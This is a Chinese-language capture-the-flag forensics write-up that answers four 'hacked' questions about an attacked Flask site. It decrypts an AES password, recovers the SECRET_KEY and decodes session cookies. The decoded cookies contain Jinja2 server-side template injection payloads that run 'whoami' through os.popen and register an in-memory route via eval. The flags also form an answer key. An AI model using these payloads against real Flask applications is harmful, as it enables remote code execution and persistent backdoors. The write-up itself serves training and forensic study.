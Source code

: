 FLAG：`fscan`

## HD

### hacked_1

> admIn用户的密码是什么？

AES [解密，Cyberchef](https://gchq.github.io/CyberChef/#recipe=URL_Decode(true)From_Base64('A-Za-z0-9%2B/%3D',true,false)AES_Decrypt(%7B'option':'UTF8','string':'l36DoqKUYQP0N7e1'%7D,%7B'option':'UTF8','string':'131b0c8a7a6e072e'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=S0dNN05JMC9Xdktzd0slMmJQbG1GSWhPNGdxZThqSnpSZE9pMDJHUTB3Wm9vJTNE&ieol=CRLF)

FLAG：`flag{WelC0m5_TO_H3re}`

### hacked_2

> app.config['SECRET_KEY']值为多少？

FLAG：`ssti_flask_hsfvaldb`

### hacked_3

> flask网站由哪个用户启动？

Flask session 解密

<https://github.com/noraj/flask-session-cookie-manager>

```bash
python .\flask_session_cookie_manager3.py decode -s "ssti_flask_hsfvaldb" -c ".eJwdx1EKwyAMANCrDEGiPz1Ar1KGZBi7gBpplH2Idy_d-3vTDKWrYiGzm2k5vZRUWeo2WsRObkLKeMKeuekoB4RwZvlg1hDg_S917lSeOhAFf0CTRvXp7ytYGPx2EUbnl7drWqqRk11m3cGmKw0.YpIQcw.J5vs8t8bAr0xDIxF6EqUAH2kkLE"
{'username': "{%if session.update({'flag':lipsum['__globals__']['__getitem__']('os')['popen']('whoami').read()})%}{%endif%}"}
```

```bash
python .\flask_session_cookie_manager3.py decode -s "ssti_flask_hsfvaldb" -c ".eJwdylsKAyEMQNGtFEGiUGYBs5VpkRQz04AvjNIPce-t_TyXO9QZ8FK7quQfSd1VF6oJI_3S0HzehEQ4p60Xj43MgPXDHrhIjwc4d4X8wiDOwfNPatwoLhrIAvaAkgulxc87Y2SwWyX0xk6r59CUPJ96qvkFHeUvmg.YpIQkg.65xf8l2g9fXAImkfyihId46KkY4"
{'flag': 'red\n', 'username': "{%if session.update({'flag':lipsum['__globals__']['__getitem__']('os')['popen']('whoami').read()})%}{%endif%}"}
```

FLAG：`red`

### hacked_4

> 攻击者写入的内存马的路由名叫什么？（答案里不需要加/）

```bash
python .\flask_session_cookie_manager3.py decode -s "ssti_flask_hsfvaldb" -c ".eJx1jUsOgkAQBa-Cs2lJCEbdcQI9A0w6DdMaYjPgfAwJmbsLC1fq7r2kKrWo6NlZGlhValmiE7yNrkS8y9iSeMQaENvYS-jt-kDXwC8S0PtG0TSVZAxulovCezhcreEZigw-Q2hoDWUVXFhk3GXH0xnyRhULoONnZB-wCzP6QN0Dqt_9b1AXsMb_8F10jm3AjdApT0mlNx2uUsY.YpIRHQ.qS_PWmxt4i4cjHYBzDz-rUdTZns"
{'username': '{{url_for.__globals__[\'__builtins__\'][\'eval\']("app.add_url_rule(\'/Index\', \'Index\', lambda :\'Hello! 123\')",{\'_request_ctx_stack\':url_for.__globals__[\'_request_ctx_stack\'],\'app\':url_for.__globals__[\'current_app\']})}}'}
```

FLAG：`Index`

## 参考资料

- <https://github.com/CTF-Archives/2023-longjiancup>
- <https://xz.aliyun.com/news/12252>
- <https://mp.weixin.qq.com/s/Y8Wfs0or4F0nTcYQDiNiIQ>
